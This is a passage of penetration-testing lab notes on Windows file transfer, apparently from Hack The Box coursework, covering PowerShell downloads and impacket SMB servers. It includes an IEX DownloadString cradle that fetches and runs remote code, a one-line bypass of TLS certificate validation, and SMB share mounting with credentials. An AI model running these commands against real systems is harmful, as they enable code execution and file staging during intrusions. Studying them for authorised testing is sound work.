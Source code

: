 - If the SSL/TLS secure channel certificate is not trusted:
```powershell
# Error
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('[Target_File_URL]')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	+ CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
	+ FullyQualifiedErrorId : WebException

# Fix
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('[Target_File_URL]')
```


## SMB

### Create the SMB Server
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

### Copy a File from SMB Server
```powershell
C:\htb> copy \\[Target_File_URL]
	1 file(s) copied.
```

### SMB Errors

- New versions of Windows block unauthenticated guest access:
`You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.`

#### Create SMB Server w/ a Username and Password
```bash
sudo impacket-smbserver [share] -smb2support /tmp/smbshare -user [utest] -password [ptest]
```

#### Mount the SMB Server with Username and Password
```powershell
C:\htb> net use n: \\[Target_URL]\[share] /user:[utest] [ptest]

The command completed successfully.

C:\htb> copy n:\[Target_File]
	1 file(s) copied.
```
